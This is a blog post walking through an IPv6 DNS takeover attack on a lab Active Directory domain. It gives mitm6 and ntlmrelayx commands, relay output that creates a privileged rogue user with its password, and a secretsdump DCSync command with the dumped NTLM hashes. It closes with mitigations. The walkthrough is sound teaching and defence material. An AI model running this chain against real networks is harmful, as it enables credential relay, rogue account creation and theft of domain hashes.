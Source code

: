 ```yaml
---
layout:	post
title:  "AD Initial-Attacks: IPv6 DNS Takeover"
date:   2024-07-22 11:11:11 +0200
categories: [Active Directory]
tags: [Active Directory]
---
```


## Pre-requisites

[AD: Fundamentals (venuschhantel.com.np)](https://venuschhantel.com.np/posts/AD_Fundamentals/)

<br>

## AD Environment

The AD environment for the IPv6 DNS Takeover walkthrough is illustrated in the image below.

![AD Environment](/images/2024-07-22-AD_Initial_Attacks_IPv6_DNS_Takeover/1.png)

<br>

## IPv6 DNS Takeover

Many network primarily use IPv4 but also have IPv6 enabled. Often IPv6 DNS server is not configured. So, there is usually nothing that does the DNS for IPv6. Attacker can take advantage of this **misconfiguration** and spoof as IPv6 DNS server to carry out MITM attack.

To carry out the attack, we will use ntlmrelayx and mitm6 tools from ‘hecker’ machine. Execute ntlmrelayx with the following command to relay IPv6 traffic to DC.  

```bash
ntlmrelayx.py -6 -t ldaps://192.168.190.130 -wh wpad.APEWITHINTERNET.local -l Out
```

Then, mitm6 was executed with following command to spoof and intercept IPv6 traffic. Make sure to use this in short sprints of 5-10 minutes in production environment as it can cause network outages.

```bash
sudo mitm6 -d APEWITHINTERNET.local
```

Now, when any event occur on the network like machine startup/reboot or user logins, they will be intercepted and relayed to DC.

<br>

When PC1 startup/reboot, the PC will try to authenticate to spoofed ‘hecker’ machine which will be relayed to DC.  

```bash
*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Client requested path: /wpad.dat
[*] HTTPD: Client requested path: /wpad.dat
[*] HTTPD: Serving PAC file to client ::ffff:192.168.190.129
[*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD: Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD: Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD: Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] Authenticating against ldaps://192.168.190.130 as APEWITHINTERNET\PC1$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Authenticating against ldaps://192.168.190.130 as APEWITHINTERNET\PC1$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
```

Additionally, it uses ldapdomaindump to dump out various object information like users, computers, groups, policy, trusts, etc, in various file format which are listed below.  This can be useful for enumeration.

```bash
-rw-rw-r-- 1 kali kali  2209 Jul 21 14:28 domain_computers_by_os.html
-rw-rw-r-- 1 kali kali   706 Jul 21 14:28 domain_computers.grep
-rw-rw-r-- 1 kali kali  1873 Jul 21 14:28 domain_computers.html
-rw-rw-r-- 1 kali kali 12180 Jul 21 14:28 domain_computers.json
-rw-rw-r-- 1 kali kali 10202 Jul 21 14:28 domain_groups.grep
-rw-rw-r-- 1 kali kali 17213 Jul 21 14:28 domain_groups.html
-rw-rw-r-- 1 kali kali 82546 Jul 21 14:28 domain_groups.json
-rw-rw-r-- 1 kali kali   267 Jul 21 14:28 domain_policy.grep
-rw-rw-r-- 1 kali kali  1163 Jul 21 14:28 domain_policy.html
-rw-rw-r-- 1 kali kali  5458 Jul 21 14:28 domain_policy.json
-rw-rw-r-- 1 kali kali    71 Jul 21 14:28 domain_trusts.grep
-rw-rw-r-- 1 kali kali   828 Jul 21 14:28 domain_trusts.html
-rw-rw-r-- 1 kali kali     2 Jul 21 14:28 domain_trusts.json
-rw-rw-r-- 1 kali kali 18519 Jul 21 14:28 domain_users_by_group.html
-rw-rw-r-- 1 kali kali  2177 Jul 21 14:28 domain_users.grep
-rw-rw-r-- 1 kali kali  8223 Jul 21 14:28 domain_users.html
-rw-rw-r-- 1 kali kali 18589 Jul 21 14:28 domain_users.json
```

<br>

Also, when user try to login, they will try to authenticate to spoofed ‘hecker’ machine which will be relayed to DC. 

```bash
[*] User privileges found: Create user
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Attempting to create user in: CN=Users,DC=APEWITHINTERNET,DC=local
[*] Adding new user with username: CBHOxNqxcU and password: Dm=:S12UF7h2=h~ result: OK
[*] Querying domain security descriptor
[*] Success! User CBHOxNqxcU now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20240721-143455.restore
[-] New user already added. Refusing to add another
[-] Unable to escalate without a valid user, aborting
```

As can be seen in above output, it created a user named ‘CBHOxNqxcU’ with password ‘Dm=:S12UF7h2=h~’, which is verified below..

![AD Environment](/images/2024-07-22-AD_Initial_Attacks_IPv6_DNS_Takeover/2.png)

<br>

## Additional

Since the tool creates a user. We can use that user to dump out NTDS.DIT as can be seen below. The dumped hash can be later cracked offline.

```bash
secretsdump.py APEWITHINTERNET/CBHOxNqxcU:Dm=:S12UF7h2=h~@192.168.190.130 -just-dc-ntlm
```

```bash
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:064fbbe5db9939f23459813a58e24a78:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ff99a9aaf9780bb473a16a218c7a3848:::
APEWITHINTERNET.local\ape:1103:aad3b435b51404eeaad3b435b51404ee:f7ea8d7ec5f7ccf8e50b661ee29f8ee0:::
APEWITHINTERNET.local\monkee:1104:aad3b435b51404eeaad3b435b51404ee:868af3862be0f5859ab56ca33330d795:::
APEWITHINTERNET.local\chimp:1105:aad3b435b51404eeaad3b435b51404ee:fc15b4e40a055ef9b1937538e61ab5c6:::
APEWITHINTERNET.local\SQLService:1106:aad3b435b51404eeaad3b435b51404ee:b5d902ffca907a7cb1d8fb9bf4dbb0bd:::
CBHOxNqxcU:1111:aad3b435b51404eeaad3b435b51404ee:025a288deddf795bb558cf658a90fb4c:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:0fd99f8be51a76a7237ab34a1f58e218:::
PC2$:1109:aad3b435b51404eeaad3b435b51404ee:0ecc239e48df9c0052227ddbd282984f:::
PC1$:1110:aad3b435b51404eeaad3b435b51404ee:0a6696279f7963e540d35e0e760a2b62:::
[*] Cleaning up... 
```

<br>

## Mitigations

- If IPv6 is not used, block DHCPv6 traffic via Windows Firewall Group Policy
    - (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPV6-In)
    - (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
    - (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPV6-Out)
- Enable LDAP signing and LDAP channel binding to avoid LDAP/LDAPS relay
- If WPAD is not used, disable it via registry
    - Set ‘HKLM\SYSTEM\CurrentControlSet\Services\WinHttpAutoProxySvc\Start’ value to 4
- Add high privileges users to Protected Users group to prevent impersonation of user via delegation